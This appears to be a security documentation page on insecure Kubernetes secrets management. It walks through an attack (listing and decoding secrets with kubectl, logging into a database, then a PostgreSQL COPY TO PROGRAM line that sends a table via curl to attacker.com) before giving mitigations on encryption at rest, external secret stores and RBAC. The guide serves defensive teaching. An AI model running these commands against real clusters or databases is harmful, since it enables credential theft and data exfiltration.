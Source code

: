 ```yaml
---
sidebar_position: 4
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

Insecure secrets management in Kubernetes can lead to the exposure of sensitive data, such as API keys, database credentials, and certificates. Storing secrets in plaintext or using insecure backends increases the risk of unauthorized access by attackers.

---

## Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker can identify Kubernetes Secrets stored in plaintext using the following command:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The attacker extracts and decodes a Base64-encoded secret:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The attacker uses the decoded credentials to access a database:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The attacker exports sensitive data from the database to an external server:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### Result

The attacker can access and exfiltrate sensitive data, potentially causing data breaches and regulatory compliance violations.

---

## Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

**Issue:** Secrets stored in etcd are not encrypted by default.<br/>
**Fix:** Enable encryption at rest in the Kubernetes configuration.

#### Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
  - resources:
      - secrets
    providers:
      - aescbc:
          keys:
            - name: key1
              secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
      - identity: {}
```

### 2. Use External Secret Management Solutions

**Issue:** Kubernetes Secrets alone do not provide advanced security features.<br/>
**Fix:** Integrate with external secret management tools like HashiCorp Vault, AWS Secrets Manager, or Azure Key Vault.

#### Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

**Issue:** Lack of access controls allows unauthorized access to secrets.<br/>
**Fix:** Implement Role-Based Access Control (RBAC) to restrict secret access.

#### Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
  - apiGroups: [""]
    resources: ["secrets"]
    verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
  - kind: ServiceAccount
    name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To securely manage Kubernetes secrets:

- Always enable encryption at rest using etcd encryption.
- Utilize external secret management solutions for enhanced security.
- Apply RBAC policies to restrict access to sensitive data.
